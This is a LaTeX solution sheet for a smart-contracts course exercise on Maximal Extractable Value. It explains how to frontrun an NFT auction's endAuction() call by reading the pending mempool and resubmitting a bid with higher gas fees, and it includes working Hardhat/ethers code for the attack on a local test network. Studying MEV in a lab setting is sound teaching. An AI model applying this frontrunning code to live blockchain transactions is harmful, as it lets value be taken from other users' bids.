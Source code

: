 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 08: \\ Maximal Extractable Value -- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solved Exercise 08 - Maximal Extractable Value can be found in this \href{https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/08-Maximal-Extractable-Value/solution/solution-code}{GitLab repository}.

\section*{Solution to Task 1: NFT Auction Frontrunning}

The solution employs the following strategy:

\begin{enumerate}
\item Monitor the mempool for the \texttt{endAuction()} transaction
\item Extract the gas parameters from the pending transaction
\item Submit our bid with higher gas parameters to ensure it gets mined first
\item Wait for our bid and the \texttt{endAuction()} transaction to be mined
\item Claim the NFT
\end{enumerate}

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// See the mempool
pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  auction,
  "endAuction"
);
const frontrunTx = {
  to: auction.target,
  data: auction.interface.encodeFunctionData("bid"),
  value: ethers.parseEther("1.5") + 1n, // Bid 1.5 ETH + 1 wei
  type: 2, // EIP-1559 transaction
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + 1000000000n, // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + 1000000000n, // +1 Gwei
  gasLimit: 500000, // Ensure enough gas is provided
};

// Send our frontrunning transaction
await player.sendTransaction(frontrunTx);
console.log("Player sent frontrunning transaction");
\end{verbatim}
\end{minipage}
\end{document}
